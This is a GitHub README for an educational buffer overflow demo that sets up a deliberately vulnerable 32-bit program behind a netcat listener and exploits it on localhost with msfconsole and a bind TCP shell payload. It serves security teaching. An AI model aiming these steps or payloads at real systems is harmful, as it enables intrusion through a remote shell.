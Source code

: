 # ijit
Simple buffer overflow demo, in the style of a Just-In-Time compiled (JIT) program.

Install metasploit and then check this code out to your modules directory:

```
mkdir -p ~/.msf4/modules/exploits/linux
cd ~/.msf4/modules/exploits/linux
git clone https://github.com/olawlor/ijit
```

Now compile and run the vulnerable program (compiled here as a 32-bit x86 program):

```
cd ijit
gcc -m32 ijit.c -o ijit32 
nc -l -p 8888 | ./ijit32
```

Leave the vulnerable program running.

In another terminal, exploit it with msfconsole:

```
msfconsole
use exploit/linux/ijit/ijit 
reload
set RHOST 127.0.0.1
set nop x86/single_byte
set payload linux/x86/shell/bind_tcp
exploit
```

